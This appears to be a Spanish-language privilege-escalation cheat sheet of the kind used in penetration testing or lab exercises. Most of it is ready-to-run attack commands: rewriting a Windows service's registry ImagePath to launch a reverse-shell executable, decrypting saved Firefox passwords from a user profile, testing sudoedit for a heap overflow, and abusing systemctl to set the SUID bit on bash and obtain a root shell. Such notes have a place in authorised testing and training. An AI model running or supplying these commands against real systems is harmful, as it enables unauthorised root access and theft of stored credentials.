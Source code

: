 "Weak Registry Permissions"
sc qc <servicio>  #vemos la propiedad SERVICE_START_NAME  LocalSystem
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<servicio_reg>  #Vemos propiedad ImagePath
reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\path\reverse.exe /f #sobreescribimos el registro de la imagenpath hacia nuestra reverse.exe
net start regsvc



##Vector contraseñas en firefox

utilizamos https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py
Necesitamos tener todos los archivos del perfil
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release\
luego ejecutamos
python3 firefox_decrypt.py ./ 
Obteniendo el usuario y contraseña guardada.


### sudo (2020)
- $sudoedit -s '\99999999999999999999999999999999999999'
  malloc() error = vulnerable
  
## Vector sudo -l

* $find / -perm -4000 -user root -type f -print >>suid.txt #busca archivos con permiso root
* $find / -type f -name especifictxt.txt
* la entrada /usr/bin/sudo significa q se puede explotar sudo 
* $/usr/bin/bash -p

## Vector systemctl (local) https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49
dentro del equipo conectado

$TF=$(mktemp).service
$echo '[Service]
>Type=oneshot
>ExecStart=/bin/sh -c "chmod +s /bin/bash"
>[Install]
>WantedBy=multi-user.target' > $TF

$systemctl link $TF
$systemctl enable --now $TF

Para explotar la shell
bash -p
#id
root

## Vector programa local con privilegios root
